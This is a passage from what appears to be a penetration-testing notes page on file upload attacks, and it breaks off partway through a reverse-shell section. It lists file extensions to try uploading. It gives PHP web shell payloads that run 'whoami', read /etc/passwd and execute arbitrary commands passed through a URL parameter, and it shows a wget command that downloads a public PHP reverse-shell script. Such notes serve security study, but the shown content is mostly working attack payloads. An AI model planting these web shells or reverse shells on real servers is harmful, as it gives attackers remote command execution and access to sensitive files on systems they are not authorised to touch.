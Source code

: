 ```yaml
---
title: File Upload Attack
description: It is often used for gaining access to the target shell using Reverse Shell, or getting sensitive information using Remote Code Execution (RCE).
tags:
    - Web
refs:
    - https://docstore.mik.ua/orelly/web2/wdesign/ch19_01.htm
    - https://saadahmedx.medium.com/exploiting-auto-save-functionality-to-steal-login-credentials-bf4c7e1594da
date: 2023-03-10
draft: false
---
```


## Check File Extensions We Can Upload

First off, we need to know what file extensions are allowed to be uploaded in the target website.  
Try to upload any formats.

```sh
.exe
.php, .php3, .php4, .php5, .phtml, .phar
.jpg, .png, .gif
.pdf
```

<br />

## Prepare a Payload

### Web Shell

For example, the file name is "exploit.php".

```php
// Simply showing the result of 'whoami'.
<?php echo system('whoami'); ?>

// This shows the content of "/etc/passwd".
<?php echo file_get_contents('/etc/passwd');  ?>

// We can execute arbitrary commands by passing the url parameter e.g. "/exploit.php?cmd=whoami"
<?php echo system($_GET['cmd']); ?>
```

### Reverse Shell

- **Option 1**

    Download the payload from GitHub.

    ```sh
    wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php -O shell.php
